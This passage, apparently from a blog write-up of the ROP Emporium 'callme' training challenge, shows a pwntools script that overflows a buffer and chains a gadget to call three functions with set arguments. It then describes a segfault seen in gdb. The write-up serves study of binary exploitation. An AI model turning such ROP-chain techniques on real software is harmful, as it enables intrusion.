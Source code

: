 ![](/assets/images/ropemporium/callme_useful_gadget.png)

Here is a first attempt at a script:

```python
from pwn import *

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d


one_addr = 0x400720
two_addr = 0x400740
three_addr = 0x4006f0
gadget = 0x40093c

call_args = p64(gadget) + p64(arg1) + p64(arg2) + p64(arg3)

chal = process('./callme')

send_str = b'a'*40 + call_args + p64(one_addr) + call_args + p64(two_addr) + call_args + p64(three_addr)

f = open('fake_stdin','wb')
f.write(send_str)
f.close()


print(chal.recvuntil(b'>'))
chal.sendline(send_str)
print(chal.recvall())
```
This script seems like it should work, but it segfaults. What has gone wrong? Looking at the segfault in gdb, it appears that `callme_one` was called with the correct arguments, but the segfault has occurred at a seemingly random point in `fclose()`.

![](/assets/images/ropemporium/callme_segfault.png)
